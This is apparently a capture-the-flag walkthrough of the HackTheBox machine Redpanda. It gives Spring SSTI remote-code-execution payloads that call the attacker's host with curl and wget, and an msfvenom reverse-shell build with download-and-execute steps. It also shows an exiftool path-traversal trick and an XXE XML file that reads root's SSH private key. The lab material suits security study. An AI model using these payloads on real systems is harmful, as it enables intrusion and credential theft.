HTB: Redpanda
Enumeration
Rustscan & Nmap

Website Enumeration

Its a seach field. I tested it with “abc”.

Next, we test with blank value & we get some intresting results.

Next, I explored by clicking on the Author: woodenk hyperlink.

We go to a stats page. We find theer are 2 authors: woodenk & damian.
Each of them around 4 Panda images.
I tried searching for each of them in the search tab. But there is no important info in any of them. Except the first searched “greg” where it specifies about “Injection”.
Directory Enumeration

Upon opening the /error directory we get an error message. I searched it in google & got the underlying framework as SpringFramework

Foothold
After exploring various injections we find that the application is vulnerable to SSTI (Server Side Template Injection).
We use the following payload (Without the double quotes) in the search to test it.
"#{7*7}"

The following payload also works with cleaner output.
"*{7*7}"

If I try "*{7*'7'}", it wouldn’t work which showed that it is not a Python program.
Banned Characters
While doing some testing, I received a message that it contains banned characters. Further testing allows me to find out characters like underscore ‘_' and percentage ‘%’, are banned.
From the following link. I got the RCE code & tried it.
https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.7:80")}
However, for the above payload, we will not see any output. So I have to setup a webserver on my kali machine to test it.
And finally we have to add * in the beginning of the payload for it to work as we saw above for *{7*7}
Final Payload
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.7:80")}
I searched the above & verified it on my python web server.

We got successful RCE.

Reverse Shell
I will create a linux executible using msfvenom & then upload it to the target machine & execute it.
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.7 LPORT=7777 -f elf -o shell.elf
Next, I will host it in my local kali machine using python webserver.
python -m http.server 80
Next, I start the listener on my kali machine.
rlwrap nc -lvnp 7777
On Target side, I run the following 3 payloads in search sequentially.
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.10.16.7/shell.elf")}
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./shell.elf")}
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./shell.elf")}
We got access to the machine.

Intresting point to notice is that woodenk are also a member of logs group.
I stabilize the shell by using python.
We get the user flag in the woodenk's home directory.
Privilege Escalation
We check for running processes using pspy64
I hosted in my local kali machine & downloaded in the target machine.

We run it & check the following snap.

There is a jar file running as root user. I will download this file to my local machine & examine it.
Then i opened the final-1.0-jar-with-dependencies.jar file with jd-gui in my kali machine.
Go to com ---- logparser ---- App.class to get the code as shown below.

Based on the code, we can see that content of /opt/panda_search/redpanda.log will be read line by line. After understanding the code, I realized there are a few conditions to pass:
▪ The line must contain “.jpg” in the string
▪ split() will be done to the string where “||” is the delimiter. See above code for .split(“\\|\\|”).
The string must be split into 4 strings:
The first string must be a number.
4th string must be pointing to an existing .jpg file.
▪ The .jpg file’s metadata tag “Artist” must have a value that matched to /credits/<author_name>_creds.xml.
Since the current user does not have WRITE access to /credits, I have to set the “Artist” value to “../tmp/cybex” where our XML exploit will be at /tmp/cybex_credits.xml.
▪ JPG file should be in a folder where the current user has WRITE access. I used /tmp.
Creating Image FIle:
Next, we create a JPG file & add the author name to its metadata.
I used gimp to create the file & named it KungFuPanda.jpg
Next, we need this file inside the /credits directory

Since we are not the folder’s owner, we cannot change its permission. Due to the source code does not sanitize our Artist’s name, we can use a name that directory traversals to where we store our exploit XML file in a folder where our user has WRITE access.
We use the following to modify the metadata of our image.
exiftool -Artist="../tmp/cybex" KungFuPanda.jpg

Creating XML File:
A quick and easy way to see the structure of the required XML is to look at an existing XML file on the victim’s machine.

We will modify it & make our xml file as follows. We will only keep the necessary parts.

Using the link
https://knowledge-base.secureflag.com/vulnerabilities/xml_injection/xml_entity_expansion_java.html#vulnerable-example-1
Our XML:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
<author>cybex</author>
<image>
<uri>/../../../../../../tmp/KungFuPanda.jpg</uri>
<views>1</views>
<foo>&xxe;</foo>
</image>
<totalviews>2</totalviews>
</credits>
Notes:
We have changed artist to our artist name: (cybex)
We have changed the URI Path: (/../../../../../../tmp/KungFuPanda.jpg)
Name of XML File: (cybex_creds.xml)
URI Path Explanation

The above code snippet contains the path of the URI. So from there we use directory trasversal to point the URI to our jpg in /tmp folder.
Content for LOG File:

We know that there are a few conditions for the content in the log file:
▪ split() will be done to the string where “||” is the delimiter. See this article for .split(“\\|\\|”).
▪ The string must be split into 4 strings:
▪ The first string must be a number.
▪ 4th string must be pointing to an existing .jpg file.
So our final content for log file will be:
222||a||a||/../../../../../../tmp/KungFuPanda.jpg
Exploitation:
We keep the JPG & XML files in the target machine's /tmp directory & make the above change to log file.

After some time, our XML file will have id_rsa of root.

As we can see above, we have the id_rsa of the root user. We copy it to a file named id_rsa.
Change its permission to 600 & ssh to the target machine as root using this file.

We get the root flag in the /root directory.
Thanks !!